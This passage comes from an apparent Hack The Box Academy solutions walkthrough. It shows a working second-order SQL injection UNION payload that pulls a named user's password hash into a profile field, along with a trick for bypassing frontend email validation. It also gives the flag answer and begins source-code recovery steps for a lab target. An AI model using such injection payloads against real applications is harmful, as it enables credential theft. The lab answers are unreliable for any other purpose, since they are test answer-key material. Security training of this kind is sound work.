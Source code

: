 ![[HTB Solutions/CWEE/z. images/d5448eb354be387a84a2655251a65aab_MD5.jpg]]

![[HTB Solutions/CWEE/z. images/3df4ee85e71829338d691e3c867d8851_MD5.jpg]]

To exploit the `second-order SQL injection`, students need to inject a `UNION` statement that exfiltrates the password of the user `betrayedApples3` into the `Email` field within the `/profile/edit` webpage, making sure to set the field's type to `text` instead of `email` to bypass the frontend's validation of the string passed:

Code: sql

```sql
' UNION SELECT '1','2','3',password,5 FROM users WHERE username='betrayedApples3'--
```

![[HTB Solutions/CWEE/z. images/6a3ec24f02d1cea9e2b3670fa65c5296_MD5.jpg]]

When visiting the profile page, students will attain the flag `$2b$12$V5XNBDjsjG9cbyYOB3Kmk.j36jEydVhXIegPpo4HTz7ehiodG1E8O`:

![[HTB Solutions/CWEE/z. images/933f302ce3fff654069f41a2eee3bee6_MD5.jpg]]

![[HTB Solutions/CWEE/z. images/aff0fc628d091242e50b67886193f125_MD5.jpg]]

Answer: `$2b$12$V5XNBDjsjG9cbyYOB3Kmk.j36jEydVhXIegPpo4HTz7ehiodG1E8O`

# Reading and Writing Files

## Question 1

### "There is a SQL injection inside the signup functionality that we haven't explored yet. Use it to create the file /var/lib/postgresql/proof.txt on the target over port 8080 and then check /server-info for your flag."

After spawning the target machine, students need to download the directory `/opt/blurbird` from it using `scp` with the credentials `student:academy.hackthebox.com`, clone a mirror of [Fernflower](https://github.com/fesh0r/fernflower.git), install `openjdk-17-jdk` and set it as the default `JDK`, build `Fernflower` and use it to decompile `BlueBird-0.0.1-SNAPSHOT.jar`, extract all the source `.java` files, and then use `code` to analyze the source code:

Code: shell

```shell
scp -r student@STMIP:/opt/bluebird ./
git clone https://github.com/fesh0r/fernflower.git
sudo apt install openjdk-17-jdk -y
sudo update-java-alternatives --set /usr/lib/jvm/java-1.17.0-openjdk-amd64
cd fernflower/
./gradlew build -x test
cd ..
mkdir BlueBirdSourceCode/
java -jar ./fernflower/build/libs/fernflower.jar ./bluebird/BlueBird-0.0.1-SNAPSHOT.jar BlueBirdSourceCode/
cd BlueBirdSourceCode/
jar -xf BlueBird-0.0.1-SNAPSHOT.jar
code ./BOOT-INF/classes/
```
